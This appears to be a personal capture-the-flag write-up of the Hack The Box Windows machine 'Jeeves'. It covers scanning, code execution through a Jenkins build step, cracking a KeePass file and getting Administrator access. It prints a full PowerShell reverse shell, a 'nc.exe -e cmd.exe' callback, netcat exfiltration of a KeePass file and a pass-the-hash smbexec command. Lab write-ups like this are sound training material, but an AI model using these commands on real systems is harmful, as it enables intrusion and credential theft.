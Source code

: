 #medium 

## 0. **Lab infos**

**Difficulty :** Medium
**Name :** Jeeves
**IP** : 10.129.228.112
**Objectives :** Get user and root flags
**OS :** #Windows

##### **Conclusion**
**Time :** 
	**Start :** 22.04.2025 16:31
	**Break at/to :** 22.04.2025 19:02 | 23.04.2025 17:00
	**Finish :** 23.04.2025 18:08
**Satisfaction :**  
### 1. **Reconnaissance

We start with an #nmap scan

```BASH
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```

And we make a #gobuster scan on the port 50000 because it's the only we can see without the -p-

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-0k04etkbc3]─[~]
└──╼ [★]$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.228.112:50000
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.228.112:50000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.129.228.112:50000/askjeeves/]
Progress: 108476 / 220561 (49.18%)
```

![[Pasted image 20250422164215.png]]


## 2. **Weaponization

## 3. **Delivery

## 4. **Exploitation

We can create a new jobs and in the build > Add Build step select Execute Windows batch command.

And we can enter our command. I wrote whoami.
Adn after build the jobs we can click on Conole OutPut and see the result of our command.

![[Pasted image 20250422165715.png]]

So with this reverse shell we can have an #RCE 

```POWERSHELL
powershell -nop -c "& { $client = New-Object Net.Sockets.TCPClient('10.10.14.117',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}}"
```

The server is extremely slow but it's okkey

![[Pasted image 20250422172207.png]]

After 1h30 without extracting the CEH.kdbx file I found that I have to make some changes.

First

```BASH
nc -nvlp 1234
```

After

Download nc.exe on my machine and place me in the directory and start a http python server.

End

```POWERSEHLL
powershell wget "http://10.10.14.117:8000/nc.exe" -outfile "nc.exe"
nc.exe -e cmd.exe 10.10.14.117 1234
```

And it's good.


For extracting the file :

Attacker :
```BASH
nc -l -p 12345 > file.kdbx
```

Victim :
```POWERSHELL
nc.exe 10.10.14.117 12345 < C:\Users\kohsuke\Documents\CEH.kdbx
```

And now we have the .kdbx file.

Now we want to crack the file so we start with 

```BASH
keepass2john file.kdbx > unfile.hash
```

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-yfwujbxq4p]─[~]
└──╼ [★]$ john --wordlist=/home/bobinette/Desktop/rockyou.txt unfile.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (file)     
1g 0:00:00:11 DONE (2025-04-23 10:24) 0.08403g/s 4619p/s 4619c/s 4619C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

So the password is moonshine1

So first, you need to download keepassxc :

```BASH
sudo apt install keepassxc
```

And after you can run this and enter the password :

```BASH
keepassxc open file.kdbx
```

![[Pasted image 20250423173252.png]]

![[Pasted image 20250423173816.png]]

Now we can correctly connect to the machin as Administrator with : 

```BASH
python3 /usr/share/doc/python3-impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 jeeves/Administrator@10.129.228.112
```

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

So for the first flag it's in kohsuke on his desktop :

```POWERSHELL
> type kohsuke\Desktop\user.txt
e3232272596fb47950d59c4cf1e7066a
```


Now for the root flag :

```POWERSHELL
C:\Windows\system32>type C:\Users\Administrator\Desktop\hm.txt
The flag is elsewhere.  Look deeper.

C:\Windows\system32>type C:\Users\Administrator\Desktop\"Windows 10 Update Assistant".lnk
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
L�F� �<VU��<VU��E���ȚP�O� �:i�+00�/C:\j1eKw4WINDOW~1R	�dK8eKw4.�q�&Windows10Upgrade~2Ț�JOo WINDOW~1.EXEb	�dK9dK9.��Windows10UpgraderApp.exe[-ZɱP�C:\Windows10Upgrade\Windows10UpgraderApp.exe2..\..\..\Windows10Upgrade\Windows10UpgraderApp.exe&/ClientID "Win10Upgrade:VNL:Th2Eos:{}"`�XjeevesĘ�R+�$H�||�� �
                                                                     U�������
                                                                             )E�.Ę�R+�$H�||�� �
                                                                                               U�������
                                                                                                       )E�.E	�91SPS�mD��pH�H@.�=x�hH�R;W�0@��U@�S|�
```

We are going to look deeper.

```POWERSHELL
C:\Windows\system32>dir /R C:\Users\Administrator\Desktop\
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,680,635,392 bytes free

C:\Windows\system32>type C:\Users\Administrator\Desktop\hm.txt:root.txt
The filename, directory name, or volume label syntax is incorrect.

C:\Windows\system32>more < C:\Users\Administrator\Desktop\hm.txt:root.txt
[-] SMB SessionError: code: 0xc0000034 - STATUS_OBJECT_NAME_NOT_FOUND - The object name is not found.
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-yfwujbxq4p]─[~/Desktop/netcat-1.11/impacket]
└──╼ [★]$ python3 /usr/share/doc/python3-impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 jeeves/Administrator@10.129.8.255
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>dir /R C:\Users\Administrator\Desktop\
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,680,582,144 bytes free

C:\Windows\system32>powershell -command "Get-Content -path 'C:\Users\Administrator\Desktop\hm.txt:root.txt'"
afbc5bd4b615a60648cec41c6ac92530
```